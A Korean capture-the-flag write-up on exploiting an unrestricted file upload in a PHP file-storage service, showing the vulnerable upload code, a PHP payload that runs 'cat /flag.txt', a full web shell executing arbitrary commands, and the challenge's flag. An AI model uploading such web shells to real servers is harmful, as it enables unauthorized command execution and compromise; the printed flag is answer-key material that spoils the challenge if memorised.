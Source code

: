 
문제는 **php로 작성된 파일 저장 서비스입니다. 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 /flag.txt에 있습니다.** 입니다.

이번 문제 코드는 php 이다.

### index.php

**index.php** 는 `/` 부분에서 랜더링하는 일반적인 html 의 파일이다.  
아래에 있는 이미지가 index.php로 만든 사이트이다.  

<img src="6.jpg">  

코드는 풀이에 필요없어서 생략  

### list.php

코드는 php 부분만 입력

```php
    <?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 
```

**list.php** 는 `/list` 부분에서 사용자가 **업로드한 파일**을 보여주는 곳이다.  

<img src="8.jpg">  

위의 이미지는 **test.php**를 만들어서 임시로 올린 상황이다.  
파란 글씨의 파일 이름을 누르면, 그 파일 내용을 볼 수 있다.  

./uploads 에 있는 파일들을 찾는데, 제목에 `'..', '.', 'index.html'` 가 있다면, 제외하고, 나머지 파일은 list에 파일 이름을 출력하고, 그 이름에 파일이 있는 곳으로 하이퍼링크를 설정한다.

### upload.php

코드는 php 부분만 입력

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

이 코드는, 만약 **POST 방식이면(파일을 업로드 할 때)**, **./uploads** 에 업로드한 파일을 **저장**하고, **오류 여부**와 파일 저장을 성공했다면, **어디에 저장했는지** 알려준다.

# 첫 번째 풀이(system(cat /flag.txt) 사용)

여기서 저희는 /flag.txt 를 찾는 것이기 때문에, 그냥 **cat /flag.txt** 를 하면 된다.(/flag.txt -> 루트에 있는 flag.txt 파일)

```php
<?php
	system("cat /flag.txt");
?>
```

다음과 같이 코드를 작성하고,

<img src="4.jpg">  

파일을 업로드하고, list에서 그 파일에 들어가면

<img src="5.jpg">  

다음과 같이 flag 가 나온다.  

# 두 번째 풀이(드림핵 풀이, 웹 셸)

또 다른 방법으로 웹 셸을 업로드하는 방법이 있다.  

php로 웹 셸을 만드는 방법을 몰라서, 드림핵에서 제시한 예시 코드의 출처에서 웹 셸 코드를 가져왔다.  

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

다음과 같이 웹 셸을 업로드하고, 실행하면 웹 셸을 띄울 수 있다.  

<img src="9.jpg">  

아래의 이미지는 `ls -al`을 입력한 예시이다.  

<img src="10.jpg">  

그리고 여기서 `cat /flag.txt` 를 통해 flag를 얻을 수 있다.(아니면 `cd .. ; ls -al` 을 통해 상위 폴더에서 flag.txt를 찾을 수 있다. 실제 위치는 `cat ../../../../flag.txt` 이다.)  

<img src="11.jpg">  

따라서 답은 **DH{c29f44ea17b29d8b76001f32e8997bab}** 입니다.